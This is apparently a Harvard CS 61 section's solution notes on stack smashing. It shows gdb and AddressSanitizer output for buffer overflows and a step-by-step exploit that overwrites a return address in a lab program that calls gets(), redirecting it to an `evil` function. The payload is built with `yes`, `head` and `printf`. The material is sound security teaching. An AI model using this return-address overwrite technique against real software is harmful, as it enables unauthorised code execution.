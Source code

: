 CS 61 Section 3: Stack smashing
===============================

This section material can be completed in section in flipped-classroom style,
or on your own.

[https://cs61.seas.harvard.edu/wiki/2017/Section3](Instructions)


Skills
------
* Learn how to use tools like gdb (GNU Debugger).
* Extract instructions from memory.
* Learn about simple cyber attacks.


Solution notes
--------------
The solutions depend intimately on the decisions the compiler makes
about memory layout, not all of which are standardized. We compiled
our solutions with clang version 3.8.0-2ubuntu4 on an x86-64 Linux
machine.

Parts 1 and 2 are documented in `factorial.c`.

StackSmash (Part 3)
-------------------
Here's what we observed for StackSmash (Part 3). (Sadly, the initial
section release did not compile `stacksmash.safe` with SANITIZE=1,
so you may have observed something different.)

* `./stacksmash < y120.txt` prints `Read 120 character(s)`, then
  dies with a segmentation fault. Using gdb, we see the fault occurs
  in `__libc_start_main`, after `main` returns.

* `./stacksmash.safe < y120.txt` dies with a sanitization error:
  ‘AddressSanitizer: stack-buffer-overflow on ...’. It dies *before*
  printing the number of characters read! We can use gdb to investigate
  further. I googled “breakpoint address sanitizer” and found
  [this page](https://github.com/google/sanitizers/wiki/AddressSanitizerAndDebugger),
  which says “If you want gdb to stop after asan has reported an error,
  set a breakpoint on `__sanitizer::Die` or use
  `ASAN_OPTIONS=abort_on_error=1`.” Setting that breakpoint, we see
  the following backtrace:
```
#0  0x00000000004c8760 in __sanitizer::Die() ()
#1  0x00000000004be30b in __asan::ReportGenericError(unsigned long, unsigned long, unsigned long, unsigned long, bool, unsigned long, unsigned int, bool) [clone .part.18] ()
#2  0x00000000004361ae in __interceptor_strlen.part.45 ()
#3  0x00000000004e9d13 in main () at stacksmash.c:9
```
  It looks like the sanitizer has intercepted the call to `strlen`
  and used it to detect the stack buffer overflow.

* `./stacksmash < y100.txt` and `./stacksmash < y119.txt` both
  appear to run fine. But the sanitized versions report bugs each
  time! The sanitizer caught a dangerous undefined behavior (the stack
  buffer overflow) that did not cause a crash. Good for the sanitizer!

  Note that `y100.txt` causes a stack buffer overflow even though
  the buffer is 100 bytes big. This is because the null character
  added to terminate the string lies outside the buffer.

* `./stacksmash < y99.txt` and `./stacksmash.safe < y99.txt` run fine.


AttackMe (Part 4)
-----------------
The `attackme` program links with the `evil.o` object. Interesting!
`nm evil.o` reports a single function, `evil`:
```
$ nm evil.o
                 U environ
0000000000000000 T evil
0000000000000000 r my_argv
```
We can tell it’s a function because it’s in the `T`ext segement, which
is the segment used for function instructions. Maybe we can use a
stack buffer overflow (as in Part 3) to overwrite the return address
(as in Part 2) to call `evil()`!

`nm attackme` will report the address of `evil` in our compiled
executable:
```
$ nm attackme | grep evil
0000000000400750 T evil
```

`attackme()` calls the unsafe `gets()` function. If we set a breakpoint
in `gdb attackme` at `read_line`, we can find the offset between the
start of the `buffer` and the `read_line` function’s return address.
```
$ gdb attackme
...
(gdb) b read_line
Breakpoint 1 at 0x4006cc: file attackme.c, line 8.
(gdb) r < /dev/null
Starting program: /home/kohler/cs61-sections/s03/attackme < /dev/null

Breakpoint 1, read_line () at attackme.c:8
8	    return gets(buffer);

(gdb) bt
#0  read_line () at attackme.c:8
#1  0x00000000004006f4 in main () at attackme.c:12
(gdb) # The return address, which `bt` says is 0x4006f4,
      # is located in this function’s stack frame after `buffer`.
      # We print 20 8-byte words starting at `buffer + 96`.
      x/20g buffer + 96
0x7fffffffddc0:	0x0000000000000001	0x0000000000400a7d
0x7fffffffddd0:	0x00007fffffffde00	0x00000000004006f4 #*****
0x7fffffffdde0:	0x0000000000400a30	0x00000000004005c0
0x7fffffffddf0:	0x00007fffffffdee0	0x0000000000000000
0x7fffffffde00:	0x0000000000400a30	0x00007ffff7a2d830
0x7fffffffde10:	0x0000000000000000	0x00007fffffffdee8
0x7fffffffde20:	0x00000001f7ffcca0	0x00000000004006e0
0x7fffffffde30:	0x0000000000000000	0xcef8f8e61669c1db
0x7fffffffde40:	0x00000000004005c0	0x00007fffffffdee0
0x7fffffffde50:	0x0000000000000000	0x0000000000000000
(gdb) # Looks like it’s at 0x7fffffffddd8. Verify:
      x/g 0x7fffffffddd8
0x7fffffffddd8:	0x00000000004006f4
(gdb) p (const char*) 0x7fffffffdd8 - buffer
$1 = 120
(gdb) # The return address is 120 bytes after the start of the buffer.
      q
```

Now we construct a file that consists of 120 characters, and then the
return address we want (0x400750, the address of `evil`). You could
write a program to construct this file; we use some Unix utilities.
```
$ yes | tr -d '\n' | head -c 120 > evil.txt
$ printf "\x50\x07\x40\x00\x00\x00\x00\x00" >> evil.txt
```

After this, running `./attackme < evil.txt` gives a nasty surprise!

`unattackable.c` has our unattackable version.
